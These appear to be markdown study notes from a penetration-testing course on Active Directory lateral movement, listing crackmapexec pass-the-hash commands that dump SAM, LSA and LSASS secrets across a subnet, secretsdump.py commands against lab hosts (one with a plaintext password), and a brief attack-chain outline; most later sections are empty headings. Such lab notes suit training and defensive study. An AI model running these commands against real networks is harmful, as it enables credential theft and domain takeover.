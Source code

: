 
>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```



Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --lsa
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --shares
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth -M lsassy
```


```
cmedb
```



- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```

```
secretsdump.py administrator@10.10.10.182 -hashes <full:hash>
```


- [ ] Dumping and Cracking Hashes


```
Wdigest is by default on Windows 2007 , 2008 , 2012.
```


```
llmr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump those logins -> local admin hashes -> respray the network with local accounts

Lateral, Lateral, lateral all the way through until we find the vertical movement.
It could be admin password in wdigest or it could be an admin account that logins into your Domain controller.
```


- [ ] Kerberoasting



- [ ] Token Impersonation



- [ ] LNK File Attacks



- [ ] GPP / cPassword Attacks



- [ ] Mimikatz



- [ ] Credential Dumping with Mimikatz



- [ ] Post-Compromise Attack Strategy